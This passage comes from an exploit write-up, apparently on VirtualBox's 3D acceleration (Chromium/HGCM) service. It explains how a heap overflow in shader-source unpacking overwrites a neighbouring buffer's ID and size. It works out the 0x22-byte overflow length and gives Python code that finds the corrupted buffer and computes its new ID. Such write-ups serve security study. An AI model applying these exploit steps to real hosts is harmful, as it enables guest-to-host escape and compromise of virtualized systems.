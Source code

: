 Notice that we send our message with exactly the same size as the one that has just been freed. Due to how the glibc heap works, it will hopefully take up exactly the same location. Moreover, notice that `count = 1`. Recall, that only the last length can be arbitrarily large. Since there is only one element, obviously the first is also the last element.

Finally, let `pLocalLength[0] = 0x22`. This is small enough to only corrupt the ID and size fields (we don't want to corrupt `pData`).

How is that calculated?

- Our message is 0x30 bytes long
- The offset of `pString` is at 0x28
- glibc chunk header (64bit) is 0x10 bytes wide
- Both `uiId` and `uiSize` are 32bit unsigned integers
- `pLocalLength[0]` is subtracted by 2 in `crUnpackExtendShaderSource()`

Therefore, we need 0x30-0x28=8 bytes to reach the end of the message, 0x10 bytes to go over the chunk header, and 8 bytes more to overwrite `uiId` and `uiSize`. To compensate the subtraction, we must add 2 bytes more. Overall, this equals to 0x22 bytes.

#### Finding the corruption

Recall, that the size field is a 32bit unsigned integer and that our chosen size is 0x30 bytes. Hence, this field will hold the value 0x0a0a0a30 after corruption (the three zero bytes have been replaced by the byte 0x0a).

Finding the corrupted ID is slightly more complicated and requires us to traverse the ID list to find out which of them disappeared. We do this by sending a `SHCRGL_GUEST_FN_WRITE_BUFFER` message to every ID as follows:

```python
print("[*] Finding corrupted buffer...")

found = -1

for i in range(spray_num):
    if i != hole_pos:
        try:
            hgcm_call(self.client, SHCRGL_GUEST_FN_WRITE_BUFFER, [bufs[i], spray_len, 0, ""])
        except IOError:
            print("[+] Found corrupted id: 0x%x" % bufs[i])
            found = bufs[i]
            break

if found < 0:
    exit("[-] Error could not find corrupted buffer.")
```

Finally we manually replace every `\0` with a `\n` byte to match the ID of the corrupted buffer (forgive my python skills):

```python
id_str = "%08x" % found
new_id = int(id_str.replace("00", "0a"), 16)
print("[+] New id: 0x%x" % new_id)
```

